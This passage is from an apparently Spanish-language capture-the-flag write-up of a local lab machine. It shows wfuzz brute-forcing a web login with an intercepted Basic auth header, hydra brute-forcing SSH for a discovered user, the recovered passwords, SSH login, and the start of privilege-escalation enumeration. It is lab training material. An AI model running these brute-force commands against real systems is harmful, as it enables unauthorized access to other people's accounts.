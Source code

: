 Logramos ver que efectivamente existe la cabecera
```bash
Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4=
``` 
### Ejecucion del Ataque
La que un un principio no pidimos interceptar, Ahora podemos usarlo a nuestro favor para realizar un ataque de fuerza bruta con **wfuzz** al panel de autentificacion con las cabeceras **HTTP**:
```bash
# Comandos para explotación
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt -t 50 --hh=2848 -H "Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4=" -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" http://172.17.0.2/login.php
```

Credenciales encontradas:
```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000027:   200        84 L     236 W      2924 Ch     "chocolate"
000000115:   200        84 L     226 W      2848 Ch     "adrian" 
```

Ahora que tenemos las credenciales del usuario **administrador** nos conectaremos a su panel administrativo:
```bash
username: admin
password: chocolate
```

Tenemos este mensaje de bienvenida que nos da pista de otro posible usuario:
```bash
¡Login correcto! **Enhorabuena! De parte del usuario balutin, te damos la enhorabuena**
```

Ahora que sabemos que existe un potencial usuario **balutin** realizaremos un ataque de fuerza bruta al protocolo **ssh** para encontras sus credenciales correctas:
```bash
hydra -l balutin -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://172.17.0.2
```

Tenemos las credenciales de acceso:
```bash
[STATUS] 84.00 tries/min, 84 tries in 00:01h, 14344314 to do in 2846:06h, 4 active
[22][ssh] host: 172.17.0.2   login: balutin   password: estrella
```
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh balutin@172.17.0.2 # ( estrella )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
balutin@3df40de16f5f:~$ sudo -l
-bash: sudo: command not found

balutin@3df40de16f5f:~$ id
uid=1000(balutin) gid=1000(balutin) groups=1000(balutin),100(users)

balutin@3df40de16f5f:~$ ls -la /opt/   
total 8
drwxr-xr-x  2 root root 4096 Jun 10 00:00 .
```